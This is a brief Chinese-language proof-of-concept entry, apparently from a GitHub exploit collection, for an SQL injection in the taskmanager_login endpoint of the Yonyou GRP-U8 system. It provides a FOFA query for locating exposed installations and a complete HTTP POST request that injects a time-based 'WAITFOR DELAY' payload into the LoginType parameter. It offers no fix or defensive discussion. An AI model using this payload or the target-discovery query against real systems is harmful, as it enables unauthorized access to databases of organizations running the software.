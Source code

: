 # 用友GRP-U8系统taskmanager_login存在SQL注入漏洞

用友GRP-U8系统taskmanager_login存在SQL注入漏洞

## fofa

```javascript
app="用友-GRP-U8"
```

## poc

```javascript
POST /TaskManager/taskmanager_login HTTP/1.1
Host: 192.168.57.141:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=6D291F1355C003C0237B76758924D087
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Content-Length: 94

UserNameText=%CF%B5%CD%B3%B9%DC%C0%ED%D4%B1&UserPassText=abc&LoginType=;WAITFOR DELAY '0:0:5'--&submitAction=login
```

